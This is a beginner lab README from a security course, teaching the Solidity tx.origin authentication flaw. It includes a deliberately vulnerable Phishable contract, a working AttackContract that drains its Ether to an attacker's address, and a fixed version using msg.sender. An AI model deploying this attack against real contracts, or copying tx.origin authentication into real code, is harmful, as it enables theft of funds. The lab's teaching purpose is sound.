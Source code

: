 # Module 9 - Beginner Lab: Smart Contract Security

## Background
As with all software, there is a chance that a smart contract may be exploited. In the case of smart contracts, though, there is an especially high risk, since transactions are permanent and wallets are essentially anonymous. To prevent financial loss, it is a good idea to follow best practices for secure programming.

## Meta Information
| Attribute | Explanation |
| - | - |
| Summary | This assignment goes over exploiting a bad practice in smart contract programming. |
| Topics | Smart contracts, security, risk of financial loss. |
| Audience | Appropriate for CS1 or a later course. |
| Difficulty | Beginner. |
| Strengths | This assignment makes students aware of a type of security issue, attack scenario, and a best practice when writing code for smart contracts. |
| Weaknesses | Effective secure programming requires the discipline of strict adherence to many, potentially unintuitive guidelines for which it is impractical to present the breadth of in a single lab. |
| Dependencies | Some programming knowledge and an internet-connected computer with a suitable browser for use of [the Remix IDE][Remix]. |
| Variants | There are many other vulnerabilities which could be the focus of this lab instead. |

## Assignment Instructions
1. In Solidity, there is a global variable called `tx.origin`, which contains the address of the account that originally sent the call or the transaction. In this lab, we will explore why using `tx.origin` as a form of authentication can lead to exploitation.
2. First, we begin by creating a contract with a simple purpose such as temporarily holding Ether for the owner (just as legitimate contracts in use hold Ether to enable various functions). Copy the following code into [Remix]:  
    [_Phishable.sol_][Phishable.sol]
    ```solidity
    contract Phishable {
        address public owner;
        constructor (address _owner) {
            owner = _owner;
        }

        function () public payable {} // collect ether

        function withdrawAll(address _recipient) public {
            require(tx.origin == owner);
            _recipient.transfer(this.balance);
        }
    }
    ```
3. We then create another contract to attack `Phishable.sol`. In a new document, create `AttackContract.sol`:  
    [_AttackContract.sol_][AttackContract.sol]
    ```solidity
    import "browser/Phishable.sol";

    contract AttackContract {
        Phishable phishableContract;

        address attacker; // The attacker's address to receive funds

        constructor (Phishable _phishableContract, address _attackerAddress) {
            phishableContract = _phishableContract;
            attacker = _attackerAddress;
        }

        function () payable {
            phishableContract.withdrawAll(attacker);
        }
    }
    ```
4. In `AttackContract`, we see that whenever this contract is paid an amount, it then calls the `Phishable` contract’s `withdrawAll` function providing the address to send funds to. The `Phishable` contract mistakenly authorizes this transaction, because its owner is the originator of the transaction (from paying the attacker’s contract). Why would the owner pay the attacker’s contract? Perhaps the attacker provided the contract’s address as their payment address in a private transaction with the owner of `Phishable`. This is an example of a spearphishing attack, where the attacker would have identified that `Phishable` is phishable and then organized a plan of attack to have the owner of the `Phishable` contract be involved in a transaction that would allow this attack to occur. Now, assume you are the owner of Phishable, but you see this coming before you deploy; how would you fix it?
5. We can prevent an attack like this (that is, exploiting the use of tx.origin for authentication purposes) by checking that the sender is the owner instead. In the `Phishable.sol` contract, change the line `require(tx.origin == owner);` to `require(msg.sender == owner);`. Now, when `AttackContract` is paid an amount by the owner of `Phishable` and calls `Phishable`’s `withdrawAll` function, the funds will not be transferred to the attacker’s address, since they are not the owner. We'll call this updated version `UnPhishable`. The code should look like this:  
    [_UnPhishable.sol_][UnPhishable.sol]
    ```solidity
    contract UnPhishable {
        address public owner;
        constructor (address _owner) {
            owner = _owner;
        }

        function () public payable {} // collect ether

        function withdrawAll(address _recipient) public {
            require(msg.sender == owner);
            _recipient.transfer(this.balance);
        }
    }
    ```

## Credits
Dr. Debasis Bhattacharya  
Mario Canul  
Saxon Knight  
https://github.com/ethereumbook/ethereumbook  

[Remix]: https://remix.ethereum.org/
[Phishable.sol]: https://github.com/UHMC/module-9-lab-beginner/blob/master/Phishable.sol
[AttackContract.sol]: https://github.com/UHMC/module-9-lab-beginner/blob/master/AttackContract.sol
[UnPhishable.sol]: https://github.com/UHMC/module-9-lab-beginner/blob/master/UnPhishable.sol
